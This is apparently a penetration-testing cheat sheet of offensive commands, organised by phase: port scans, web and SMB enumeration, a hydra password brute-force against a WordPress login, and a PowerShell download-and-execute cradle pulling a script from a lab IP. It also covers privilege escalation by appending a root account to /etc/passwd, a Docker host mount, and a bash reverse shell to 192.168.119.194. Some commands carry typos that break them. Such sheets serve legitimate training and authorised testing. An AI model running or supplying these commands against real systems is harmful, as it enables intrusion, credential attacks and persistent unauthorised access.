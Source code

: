 # Nmap
sudo nmap -O -sS -p- "$target"
sudo nmap -sU -p- "$target"
sudo nmap -sC -sV "$target"
sudo nmap -O -sS -p- "$target" | tee synscan.txt && sudo nmap -sC -sV "$target" | tee scriptscan.txt && sudo nmap -sU -p- "$target" | tee udpscan.txt

# Sudo
sudo -l

# Web Enumeration (Dirb|gobuster)
dirb "http://$target" -r -z 10
gobuster dir -k --url "$target" --wordlist /usr/share/dirb/wordlists/common.txt | tee <(sed "s/.*\r//g" > gobuster.txt)
hydra -l /usr/share/commix/src/txt/usernames.txt -p /usr/share/seclists/Passwords/cirt-default-passwords.txt "$target" -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
nikto -h "$target"

# SMB
sudo nbtscan -r "$target"
nmap -v -p 139,445 --script=smb-vuln-* "$target"
enum4linux -o "$target" -k none
smblcient -L "$target"
smbclient \\\\$target\\WORSPACE

# Upgrading Shell (pty)
python -c 'import pty; pty.spawn("/bin/bash")'
script /dev/null

# Powershell
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.11.0.4/helloworld.ps1')
Also check out 16.2.3 for base64 executable transfer and execution

# Windows Priv Esc
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
net user [username]
ipconfig /all 
tasklist /SVC **all running proccesses**
route print **all routes**
netstat -ano  **all active tcp connections**
netsh advfirewall show currentprofile **current firewall settings**
chtasks /query /fo LIST /v **scheduled tasks**
wmic product get name, version, vendor **installed software**
wmic qfe get Caption, Description, HotFixID, InstalledOn **installed version**

# Linux Priv Esc
openssl password "$pasword" **generate password hash for $password**
echo "root2:$hash:0:0:root:/root:/bin/bash" >> /etc/passwd
docker run -v /:/mnt -it alpine

# WordPress (wp)
wpscan --url "http://$target" -e

# Compiling Shared Object (so)
gcc -o outfile.so -shared infile.c -fPIC

# Reverse Shell
bash -i >& /dev/tcp/192.168.119.194/8000 0>&1
